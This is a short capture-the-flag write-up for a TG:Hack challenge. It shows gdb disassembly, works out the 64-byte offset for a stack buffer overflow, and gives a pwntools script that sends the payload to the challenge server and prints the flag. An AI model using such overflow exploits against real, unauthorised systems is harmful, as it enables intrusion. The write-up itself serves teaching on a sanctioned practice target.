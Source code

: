 # overflowme

Okay, so we have to overflow a variable on the stack!

Let's check out the main function in `gdb`:
```
$ gdb -q -ex "set disassembly-flavor intel" ./overflowme
$ disas main
[...]
   0x0000000000400726 <+112>:	lea    rax,[rbp-0x50]
   0x000000000040072a <+116>:	mov    esi,0x80
   0x000000000040072f <+121>:	mov    rdi,rax
   0x0000000000400732 <+124>:	call   0x400580 <fgets@plt>
[...]
   0x000000000040074b <+149>:	mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040074e <+152>:	cmp    eax,0xc0ffee
```

I've only included the important parts of the disassembly. The buffer we can write into is at `rbp-0x50`, and the one we have to overflow is at `rbp-0x10`. That means we have to write `0x50-0x10 = 64` bytes of padding, and then `0xc0ffee`.

Let's test it locally first:
```
(gdb) r <<< `python2 -c 'print "A"*64+"\xee\xff\xc0\x00\x00"'`
Starting program: /home/pewz/tghack/overflow1/overflowme <<< `python2 -c 'print "A"*64+"\xee\xff\xc0\x00\x00"'`
Change to 0xc0ffee
old value: 0x00001337
Give me some input: new value: 0x0ac0ffee
Try again!
```

Okay, so the only error now is that we are writing a newline (`0xa`) because of python's `print()` function.

We don't have to mess around locally anymore, since we know the offset and overflow value. Time to create a pwntools script and see if our exploit works remotely.

```python
from pwn import *

r = remote("overflow.tghack.no", 5063)

r.recvuntil("input: ")
r.sendline("A"*64 + p32(0xc0ffee))

r.interactive()
```

Run it, and we get our flag:
```
$ python2 overflow.py
[+] Opening connection to overflow.tghack.no on port 5063: Done
[*] Switching to interactive mode
new value: 0x00c0ffee
Yay! The token is: TG17{0verfl0ws_are_c00l}
```
